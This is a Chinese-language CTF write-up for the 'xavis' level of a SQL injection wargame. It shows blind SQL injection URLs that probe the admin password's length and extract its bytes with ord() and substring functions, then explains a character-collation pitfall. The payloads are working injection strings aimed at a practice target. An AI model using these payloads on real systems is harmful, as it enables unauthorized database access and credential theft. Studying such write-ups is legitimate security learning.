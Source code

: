 Q19_xavis
===

發現長度有點大...
所以不可能手動找了，直接使用Burp Suite。
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw='|| (id='admin' %26%26 length(pw) >16)%23
```
![](https://i.imgur.com/MuXy9dV.png)

得到40位數的0
顯然這並不是密碼，真正的密碼可能屬於**不可視字元**。

此時非得自己寫一個腳本來跑了
跑完腳本之後得到
```
0xb80xfc0xe50xb00xe60xf00xe50xa10xa40xbb
```
透過線上工具轉成:
```
¸üå°æðå¡¤»
```
送出:
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=¸üå°æðå¡¤»
```
但是卻還是過不了...
經過了解，以`u`來說`u`與`ü`會被視為同樣字元，就跟SQL不會嚴格審視大小寫一樣。
所以腳本在跑的時候只要是`u`，頁面就會顯示 Hello admin，所以造成誤判，並與實際的pw不相同。

為了解決這個問題使用 ord 函數，來抓取確切的字元轉為ASCII 的值。
```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%27%20or%20id=%27admin%27+and+ord(right(left(pw,2),1))=249%23
```

![](https://i.imgur.com/Mm1q0af.png)

結果:
![](https://i.imgur.com/eQdKAnh.png)

```
https://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw=%C2%B8%C3%B9%C3%85%C2%B0%C3%86%C3%90%C3%84%C2%A1%C2%A4%C2%BB
```

補充:
至於UrlEncode後，會出現%c2%c3這個也不是很清楚，剛開始單純以為可以直接透過%b8等方式直接組Payload後送出，但也行不通。

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)